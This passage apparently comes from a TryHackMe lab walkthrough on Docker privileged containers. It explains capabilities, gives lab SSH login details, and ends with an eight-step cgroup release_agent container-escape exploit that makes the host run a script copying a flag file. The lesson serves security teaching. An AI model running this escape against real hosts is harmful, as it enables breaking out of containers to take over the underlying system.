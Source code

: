 These capabilities determine what permissions a Docker container has to the operating system, and how they are interacted with. Docker containers can run in two modes:

* User mode
* Privileged mode

Let's refer back to our diagram in Task 2 where we detail how containers run on the operating system to highlight the differences between these two modes:

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/privileged-container-layers.png)

Note how containers #1 and #2 are running is "user"/"normal" mode whereas container 3 is running in "privileged" mode. Containers running in "user" mode interact with the operating system through the Docker engine. Privileged containers, however, do not do this...instead, they bypass the Docker engine and have direct communication with the operating system.

**9.2. What does this mean for us?**

Well, if a container is running with privileged access to the operating system, we can effectively execute commands as root - perfect!

We can use a system package such as "libcap2-bin"'s `capsh` to list the capabilities our container has: `capsh --print` . I've highlighted a few interesting privileges that we have been given, but greatly encourage you to research into anymore that may be exploited! Privileges like these indicate that our container is running in privileged mode.

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/listcap2.png)

Before we begin to exploit this for ourselves, **you will need to deploy the new Instance attached to this Task.** The vulnerabilities of the previous VM conflict with this exploit.

**9.3. Connecting to the container:**

Connect to your new Instance using SSH with the following details:

* New Instance IP: MACHINE_IP
* SSH Port: 2244
* Username: root
* Password: danny

Allowing a few minutes for the new Instance to deploy, I'm going to demonstrate leveraging the "sys_admin" capability. We can confirm we have this capability by grepping the output of `capsh`:

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/getcap1.png)

This capability permits us to do multiple of things (which is listed [here](https://linux.die.net/man/7/capabilities)), but we're going to focus on the ability given to use us via "sys_admin" to be able to [mount](https://linux.die.net/man/2/mount) files from the host OS into the container.

The code snippet below is based upon (but a modified) version of the [Proof of Concept (PoC) created by Trailofbits](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.) where they detail the inner-workings to this exploit well.

1. mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
2. echo 1 > /tmp/cgrp/x/notify_on_release
3. host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
4. echo "$host_path/exploit" > /tmp/cgrp/release_agent
5. echo '#!/bin/sh' > /exploit
6. echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
7. chmod a+x /exploit
8. sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
